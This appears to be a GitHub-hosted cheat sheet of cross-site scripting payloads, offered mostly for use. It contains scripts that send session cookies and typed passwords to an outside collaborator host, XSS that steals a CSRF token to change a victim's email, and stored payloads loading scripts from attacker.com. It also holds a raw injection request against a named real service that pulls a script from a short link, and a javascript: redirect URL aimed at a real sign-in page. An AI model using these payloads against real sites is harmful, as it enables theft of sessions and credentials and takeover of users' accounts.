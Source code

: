 ialert
~~~
<script>alert(10)</script>
~~~



Exploiting cross-site scripting to steal cookies

~~~
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
~~~


Exploiting cross-site scripting to capture passwords

~~~
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
~~~

 Exploiting XSSto perform CSRF
 
~~~
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
~~~


 ~~~
 document.url
 document.document
 document.URLUnencoded
 document.baseURI
 location
 location.href
 location,search
 location.hash
 location.pathname
 ~~~


~~~
"><svg onload=alert(1)>"
~~~


 Reflected XSS: Use simple payloads that execute immediately, such 

~~~
 `<script>alert(1)</script>`
 `<img src=x onerror=alert(1)>`
 `<svg onload=alert(1)>`
~~~


Stored XSS: Use more complex payloads that can execute over multiple requests or persist across sessions, such as 

~~~
`<script src=https://attacker.com/xss.js></script>`
`<iframe src=https://attacker.com/xss.html></iframe>`.
~~~


DOM-based XSS: Use payloads that manipulate the DOM, such as 

~~~
`location=https://attacker.com/evil.html`
`document.write("<script>alert(1)</script>")`.
~~~

Login page or sign page xss payloads

~~~
"><img src=x onerror=alert(document.cookie);>
~~~


Request

~~~
POST /c/user HTTP/1.1
Host: app.upserve.com
Accept: application/json
Accept-Language: en-US,en;q=0.5
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: https://app.upserve.com/settings/account
Content-Length: 134
Content-Type: text/plain;charset=UTF-8
DNT: 1
Connection: close

uuid=</script><script src=//is.gd/z0i2sU>&email[YOUREMAIL]&brand_pretty_url=acewasabis-rock-n-roll-sushi
~~~


Response

~~~
HTTP/1.1 201 Created
Server: nginx
Date: Thu, 13 Jul 2017 11:26:34 GMT
Content-Type: application/json
Content-Length: 239
Connection: close
Status: 201 Created
Access-Control-Allow-Origin: https://app.upserve.com
Access-Control-Allow-Methods: GET, POST, PUT, OPTIONS, DELETE
Access-Control-Expose-Headers: 
Access-Control-Max-Age: 1728000
Access-Control-Allow-Credentials: true
Vary: Origin
ETag: "a8ab39d1ae25526ac5b541fefeb87d08"
Cache-Control: max-age=0, private, must-revalidate
X-Request-Id: 71af833e-003d-4f70-aba5-8318f9cec8e3

{"uuid":"<random UUID, not payload>","email":"asuka@asuka.h1","first_name":null,"last_name":null,"display_name":"Asuka","is_admin":false,"show_new_branding":true,"has_password":false,"loyalty_program_memberships":[],"has_cards":false}
~~~


~~~
Open the url: [https://www.starbucks.com/account/signin?ReturnUrl=%19Jav%09asc%09ript%3ahttps%20%3a%2f%2fwww%2estarbucks%2ecom%2f%250Aalert%2528document.domain%2529](https://www.starbucks.com/account/signin?ReturnUrl=%19Jav%09asc%09ript%3ahttps%20%3a%2f%2fwww%2estarbucks%2ecom%2f%250Aalert%2528document.domain%2529)
~~~


